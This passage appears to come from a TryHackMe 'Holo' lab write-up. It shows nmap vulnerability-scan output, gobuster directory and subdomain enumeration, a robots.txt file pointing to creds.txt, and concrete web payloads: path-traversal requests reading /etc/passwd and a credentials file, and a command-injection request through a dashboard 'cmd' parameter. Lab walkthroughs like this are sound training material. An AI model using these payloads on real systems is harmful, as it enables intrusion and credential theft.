|       MSF:ILITIES/CENTOS_LINUX-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2017-15715/ *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2017-15715/ *EXPLOIT*
|       MSF:ILITIES/AMAZON_LINUX-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/AMAZON_LINUX-CVE-2017-15715/ *EXPLOIT*
|       MSF:ILITIES/ALPINE-LINUX-CVE-2018-1312/ 6.8     https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2018-1312/  *EXPLOIT*
|       MSF:ILITIES/ALPINE-LINUX-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2017-15715/ *EXPLOIT*
|       CVE-2020-35452  6.8     https://vulners.com/cve/CVE-2020-35452
|       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
|       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
|       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082
|       MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/ 6.0     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/  *EXPLOIT*
|       MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/      6.0     https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/       *EXPLOIT*
|       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
|       EDB-ID:47689    5.8     https://vulners.com/exploitdb/EDB-ID:47689      *EXPLOIT*
|       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
|       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
|       1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2018-1333/       5.0     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1333/        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2018-1303/       5.0     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1303/        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2017-15710/      5.0     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2017-15710/       *EXPLOIT*
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/       5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/        *EXPLOIT*
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15710/      5.0     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15710/       *EXPLOIT*
|       MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15710/     5.0     https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15710/      *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/       5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/       5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15710/      5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15710/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15710/      5.0     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15710/       *EXPLOIT*
|       MSF:ILITIES/FREEBSD-CVE-2020-9490/      5.0     https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/       *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2017-15710/        5.0     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2017-15710/ *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/ 5.0     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/  *EXPLOIT*
|       MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/   5.0     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-9490/    *EXPLOIT*
|       CVE-2021-33193  5.0     https://vulners.com/cve/CVE-2021-33193
|       CVE-2021-26690  5.0     https://vulners.com/cve/CVE-2021-26690
|       CVE-2020-9490   5.0     https://vulners.com/cve/CVE-2020-9490
|       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
|       CVE-2019-17567  5.0     https://vulners.com/cve/CVE-2019-17567
|       CVE-2019-10081  5.0     https://vulners.com/cve/CVE-2019-10081
|       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
|       CVE-2018-17189  5.0     https://vulners.com/cve/CVE-2018-17189
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
|       CVE-2018-1303   5.0     https://vulners.com/cve/CVE-2018-1303
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/       4.9     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2019-0197/        *EXPLOIT*
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
|       MSF:ILITIES/UBUNTU-CVE-2018-1302/       4.3     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1302/        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2018-1301/       4.3     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1301/        *EXPLOIT*
|       MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-11993/ *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-11993/       *EXPLOIT*
|       MSF:ILITIES/DEBIAN-CVE-2019-10092/      4.3     https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2019-10092/       *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-11993/ *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/        4.3     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/ *EXPLOIT*
|       MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/        4.3     https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2019-10092/ *EXPLOIT*
|       MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/  4.3     https://vulners.com/metasploit/MSF:ILITIES/AMAZON-LINUX-AMI-2-CVE-2020-11993/   *EXPLOIT*
|       EDB-ID:47688    4.3     https://vulners.com/exploitdb/EDB-ID:47688      *EXPLOIT*
|       CVE-2020-11993  4.3     https://vulners.com/cve/CVE-2020-11993
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
|       CVE-2018-1302   4.3     https://vulners.com/cve/CVE-2018-1302
|       CVE-2018-1301   4.3     https://vulners.com/cve/CVE-2018-1301
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
|       1337DAY-ID-35422        4.3     https://vulners.com/zdt/1337DAY-ID-35422        *EXPLOIT*
|       1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2018-1283/       3.5     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1283/        *EXPLOIT*
|       MSF:ILITIES/REDHAT_LINUX-CVE-2018-1283/ 3.5     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2018-1283/  *EXPLOIT*
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2018-1283/       3.5     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2018-1283/        *EXPLOIT*
|       MSF:ILITIES/IBM-HTTP_SERVER-CVE-2018-1283/      3.5     https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2018-1283/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1283/       3.5     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1283/        *EXPLOIT*
|       MSF:ILITIES/CENTOS_LINUX-CVE-2018-1283/ 3.5     https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2018-1283/  *EXPLOIT*
|       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
|       PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
|       EDB-ID:46676    0.0     https://vulners.com/exploitdb/EDB-ID:46676      *EXPLOIT*
|       1337DAY-ID-663  0.0     https://vulners.com/zdt/1337DAY-ID-663  *EXPLOIT*
|       1337DAY-ID-601  0.0     https://vulners.com/zdt/1337DAY-ID-601  *EXPLOIT*
|       1337DAY-ID-4533 0.0     https://vulners.com/zdt/1337DAY-ID-4533 *EXPLOIT*
|       1337DAY-ID-3109 0.0     https://vulners.com/zdt/1337DAY-ID-3109 *EXPLOIT*
|_      1337DAY-ID-2237 0.0     https://vulners.com/zdt/1337DAY-ID-2237 *EXPLOIT*
33060/tcp open  mysqlx? syn-ack ttl 63
|_banner: \x05\x00\x00\x00\x0B\x08\x05\x1A\x00
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91%I=7%D=9/8%Time=613973F3%P=x86_64-pc-linux-gnu%r(NU
SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=9/8%OT=22%CT=%CU=32350%PV=Y%DS=2%DC=T%G=N%TM=613974BF%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)
WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 44.234 days (since Mon Jul 26 17:06:24 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 0s
| dns-blacklist:
|   SPAM
|_    l2.apews.org - FAIL
|_dns-brute: Can't guess domain of "10.200.107.33"; use dns-brute.domain script argument.
|_fcrdns: FAIL (No PTR record)
|_ipidseq: All zeros
|_path-mtu: PMTU == 1500
| qscan:
| PORT   FAMILY  MEAN (us)  STDDEV   LOSS (%)
| 22     0       332306.60  4780.36  0.0%
| 80     0       332320.30  1980.42  0.0%
|_33060  0       331512.00  1988.13  0.0%
| traceroute-geolocation:
|   HOP  RTT     ADDRESS        GEOLOCATION
|   1    331.56  10.50.103.1    - ,-
|_  2    331.76  10.200.107.33  - ,-

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   331.56 ms 10.50.103.1
2   331.76 ms 10.200.107.33

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:43
Completed NSE at 22:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:43
Completed NSE at 22:43, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:43
Completed NSE at 22:43, 0.00s elapsed
Post-scan script results:
| reverse-index:
|   22/tcp: 10.200.107.33
|   80/tcp: 10.200.107.33
|_  33060/tcp: 10.200.107.33
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 253.77 seconds
           Raw packets sent: 107 (10.784KB) | Rcvd: 2590 (2.966MB)
```

</details>

In the meantime, let's fire up gobuster dir search on our target:

<details><summary>result of gobuster dir for 10.200.107.33</summary>

```
sudo gobuster -t 15 --delay 100ms dir -e -u "http://10.200.107.33" -o TryHackMe-gobuster-dir-10.200.107.33 -w ~/Desktop/TryHackMe-Holo-Network-Premium-Completed/big.txt

http://10.200.107.33/!                    (Status: 301) [Size: 0] [--> http://10.200.107.33/]
http://10.200.107.33/.htpasswd            (Status: 403) [Size: 278]
http://10.200.107.33/0                    (Status: 301) [Size: 0] [--> http://10.200.107.33/0/]
http://10.200.107.33/.htaccess            (Status: 403) [Size: 278]
http://10.200.107.33/admin                (Status: 302) [Size: 0] [--> http://www.holo.live/wp-admin/]
http://10.200.107.33/asdfjkl;             (Status: 301) [Size: 0] [--> http://10.200.107.33/asdfjkl]
http://10.200.107.33/dashboard            (Status: 302) [Size: 0] [--> http://www.holo.live/wp-admin/]
http://10.200.107.33/favicon.ico          (Status: 302) [Size: 0] [--> http://www.holo.live/wp-includes/images/w-logo-blue-white-bg.png]
http://10.200.107.33/fixed!               (Status: 301) [Size: 0] [--> http://10.200.107.33/fixed]
http://10.200.107.33/javascript           (Status: 301) [Size: 319] [--> http://10.200.107.33/javascript/]
http://10.200.107.33/login                (Status: 302) [Size: 0] [--> http://www.holo.live/wp-login.php]
http://10.200.107.33/robots.txt           (Status: 200) [Size: 913]
http://10.200.107.33/server-status        (Status: 403) [Size: 278]
http://10.200.107.33/upgrade              (Status: 301) [Size: 316] [--> http://10.200.107.33/upgrade/]
http://10.200.107.33/wp-admin             (Status: 403) [Size: 278]
http://10.200.107.33/wp-content           (Status: 301) [Size: 319] [--> http://10.200.107.33/wp-content/]
http://10.200.107.33/wp-includes          (Status: 301) [Size: 320] [--> http://10.200.107.33/wp-includes/]
http://10.200.107.33/wp-login             (Status: 403) [Size: 278]
```

</details>

From the rustscan result, we have quite a few details worth to check out.

- robots.txt --- however it does not contain any useful information

- we got hostname and domain --- ` holo.live ` and ` www.holo.live `

Let's add the hostname and domain of our target into host file

```bash
sudo sed -i.bak '$a10.200.107.33 holo.live www.holo.live' /etc/hosts && cat /etc/hosts && ls -l /etc/hosts* 
```

We also fire up gobuster vhost scan to check if there is additional sub-domain can be found:

<details><summary>result of gobuster vhost for holo.live domain</summary>

```bash
sudo gobuster -t 15 --delay 100ms vhost -u "holo.live" -o TryHackMe-gobuster-vhost-holo.live -w ~/Desktop/TryHackMe-Holo-Network-Premium-Completed/subdomains-top1million-110000.txt

Found: www.holo.live (Status: 200) [Size: 21405]
Found: dev.holo.live (Status: 200) [Size: 7515]
Found: admin.holo.live (Status: 200) [Size: 1845]
Found: gc._msdcs.holo.live (Status: 400) [Size: 422]
```

</details>

Seem like we found additional sub-domain available, let's add to our host file

```bash
sudo sed -i.bak 's/$/ admin.holo.live dev.holo.live/' /etc/hosts && cat /etc/hosts && ls -l /etc/hosts*
```

Now we can scan and enumerate all the sub-domain, you may use basic gobuster dir scan, however since we know we can read robots text, in our case we specific gobuster to search with file extension.

<details><summary>result of gobuster dir with file extension for www.holo.live</summary>

```bash
sudo gobuster -t 15 --delay 100ms dir -e -u "http://www.holo.live" -o TryHackMe-gobuster-dir-file-www.holo.live -w ~/Desktop/TryHackMe-Holo-Network-Premium-Completed/big.txt -x txt,php

http://www.holo.live/.htpasswd.txt        (Status: 403) [Size: 278]
http://www.holo.live/.htpasswd.php        (Status: 403) [Size: 278]
http://www.holo.live/.htpasswd            (Status: 403) [Size: 278]
http://www.holo.live/.htaccess.txt        (Status: 403) [Size: 278]
http://www.holo.live/0                    (Status: 301) [Size: 0] [--> http://www.holo.live/0/]
http://www.holo.live/.htaccess.php        (Status: 403) [Size: 278]
http://www.holo.live/.htaccess            (Status: 403) [Size: 278]
http://www.holo.live/!                    (Status: 301) [Size: 0] [--> http://www.holo.live/]
http://www.holo.live/admin                (Status: 302) [Size: 0] [--> http://www.holo.live/wp-admin/]
http://www.holo.live/asdfjkl;             (Status: 301) [Size: 0] [--> http://www.holo.live/asdfjkl]
http://www.holo.live/dashboard            (Status: 302) [Size: 0] [--> http://www.holo.live/wp-admin/]
http://www.holo.live/favicon.ico          (Status: 302) [Size: 0] [--> http://www.holo.live/wp-includes/images/w-logo-blue-white-bg.png]
http://www.holo.live/fixed!               (Status: 301) [Size: 0] [--> http://www.holo.live/fixed]
http://www.holo.live/index.php            (Status: 301) [Size: 0] [--> http://www.holo.live/]
http://www.holo.live/javascript           (Status: 301) [Size: 319] [--> http://www.holo.live/javascript/]
http://www.holo.live/license.txt          (Status: 200) [Size: 19915]
http://www.holo.live/login                (Status: 302) [Size: 0] [--> http://www.holo.live/wp-login.php]
http://www.holo.live/robots.txt           (Status: 200) [Size: 913]
http://www.holo.live/robots.txt           (Status: 200) [Size: 913]
http://www.holo.live/server-status        (Status: 403) [Size: 278]
http://www.holo.live/upgrade              (Status: 301) [Size: 316] [--> http://www.holo.live/upgrade/]
http://www.holo.live/wp-admin             (Status: 403) [Size: 278]
http://www.holo.live/wp-admin.php         (Status: 403) [Size: 278]
http://www.holo.live/wp-content           (Status: 301) [Size: 319] [--> http://www.holo.live/wp-content/]
http://www.holo.live/wp-config.php        (Status: 200) [Size: 0]
http://www.holo.live/wp-login             (Status: 403) [Size: 278]
http://www.holo.live/wp-includes          (Status: 301) [Size: 320] [--> http://www.holo.live/wp-includes/]
http://www.holo.live/wp-register.php      (Status: 301) [Size: 0] [--> http://www.holo.live/wp-login.php?action=register]
http://www.holo.live/wp-feed.php          (Status: 301) [Size: 0] [--> http://www.holo.live/index.php/feed/]
http://www.holo.live/wp-login.php         (Status: 403) [Size: 278]
http://www.holo.live/wp-rss2.php          (Status: 301) [Size: 0] [--> http://www.holo.live/index.php/feed/]
http://www.holo.live/wp-trackback.php     (Status: 200) [Size: 135]
http://www.holo.live/xmlrpc.php           (Status: 405) [Size: 42]
```

</details>

<details><summary>result of gobuster dir with file extension for admin.holo.live</summary>

```bash
sudo gobuster -t 15 --delay 100ms dir -e -u "http://admin.holo.live" -o TryHackMe-gobuster-dir-file-admin.holo.live -w ~/Desktop/TryHackMe-Holo-Network-Premium-Completed/big.txt -x txt,php

http://admin.holo.live/.htaccess            (Status: 403) [Size: 280]
http://admin.holo.live/.htaccess.txt        (Status: 403) [Size: 280]
http://admin.holo.live/.htaccess.php        (Status: 403) [Size: 280]
http://admin.holo.live/.htpasswd.txt        (Status: 403) [Size: 280]
http://admin.holo.live/.htpasswd.php        (Status: 403) [Size: 280]
http://admin.holo.live/.htpasswd            (Status: 403) [Size: 280]
http://admin.holo.live/assets               (Status: 301) [Size: 319] [--> http://admin.holo.live/assets/]
http://admin.holo.live/dashboard.php        (Status: 302) [Size: 0] [--> index.php]
http://admin.holo.live/db_connect.php       (Status: 200) [Size: 0]
http://admin.holo.live/docs                 (Status: 301) [Size: 317] [--> http://admin.holo.live/docs/]
http://admin.holo.live/examples             (Status: 301) [Size: 321] [--> http://admin.holo.live/examples/]
http://admin.holo.live/index.php            (Status: 200) [Size: 1845]
http://admin.holo.live/javascript           (Status: 301) [Size: 323] [--> http://admin.holo.live/javascript/]
http://admin.holo.live/robots.txt           (Status: 200) [Size: 135]
http://admin.holo.live/robots.txt           (Status: 200) [Size: 135]
http://admin.holo.live/server-status        (Status: 403) [Size: 280]
```

</details>

<details><summary>result of gobuster dir with file extension for dev.holo.live</summary>

```bash
sudo gobuster -t 15 --delay 100ms dir -e -u "http://dev.holo.live" -o TryHackMe-gobuster-dir-file-dev.holo.live -w ~/Desktop/TryHackMe-Holo-Network-Premium-Completed/big.txt -x txt,php

http://dev.holo.live/.htaccess            (Status: 403) [Size: 278]
http://dev.holo.live/.htaccess.txt        (Status: 403) [Size: 278]
http://dev.holo.live/.htaccess.php        (Status: 403) [Size: 278]
http://dev.holo.live/.htpasswd            (Status: 403) [Size: 278]
http://dev.holo.live/.htpasswd.txt        (Status: 403) [Size: 278]
http://dev.holo.live/.htpasswd.php        (Status: 403) [Size: 278]
http://dev.holo.live/about.php            (Status: 200) [Size: 9612]
http://dev.holo.live/admin                (Status: 403) [Size: 278]
http://dev.holo.live/admin.php            (Status: 403) [Size: 278]
http://dev.holo.live/css                  (Status: 301) [Size: 312] [--> http://dev.holo.live/css/]
http://dev.holo.live/fonts                (Status: 301) [Size: 314] [--> http://dev.holo.live/fonts/]
http://dev.holo.live/images               (Status: 301) [Size: 315] [--> http://dev.holo.live/images/]
http://dev.holo.live/img.php              (Status: 200) [Size: 0]
http://dev.holo.live/index.php            (Status: 200) [Size: 7515]
http://dev.holo.live/javascript           (Status: 301) [Size: 319] [--> http://dev.holo.live/javascript/]
http://dev.holo.live/js                   (Status: 301) [Size: 311] [--> http://dev.holo.live/js/]
http://dev.holo.live/login                (Status: 403) [Size: 278]
http://dev.holo.live/login.php            (Status: 403) [Size: 278]
http://dev.holo.live/server-status        (Status: 403) [Size: 278]
```

</details>

From the gobuster result, we know that admin.holo.live does has ` robots.txt ` and it contain an interesting path to a file called "creds.txt"

```
User-agent: *
Disallow: /var/www/admin/db.php
Disallow: /var/www/admin/dashboard.php
Disallow: /var/www/admin/supersecretdir/creds.txt
```

From here, we know probably we can retrieve the file by exploiting Local File Inclusion vulnerability in PHP.

However, we are unable to retrieve the file from admin.holo.live as it is a login page.

Let's check out dev.holo.live, if the Local File Inclusion vulnerability can be found.

This is the main page of dev.holo.live:


This is the talent page of dev.holo.live:


This is the source for the talent page of dev.holo.live:



Looking at the source for talent page of dev.holo.live, we have notice there is a possibly of Local File Inclusion vulnerability --- ` img.php?file= `

Let's try out --- the payload we used is ` http://dev.holo.live/img.php?file=../../../etc/passwd `



Now, let's modified our payload to ` http://dev.holo.live/img.php?file=../../../var/www/admin/supersecretdir/creds.txt `

This will allow us try to retreive the ` creds.txt ` stated in ` robots.txt ` of admin.holo.live as we know development environment usually is a replication of production environment.


Now we get a credentials, let's try to login to admin.holo.live:


Once we login, we check on the source of dashboard.php, right away we notice there is PHP Rmote Code Execution ([OWASP Command Injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)) under the comment for "visitor visted today"

```php
<!-- //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

Let's try out --- the payload we used is ` http://admin.holo.live/dashboard.php?cmd=ls+-la%20&&%20echo%20%22%22 `



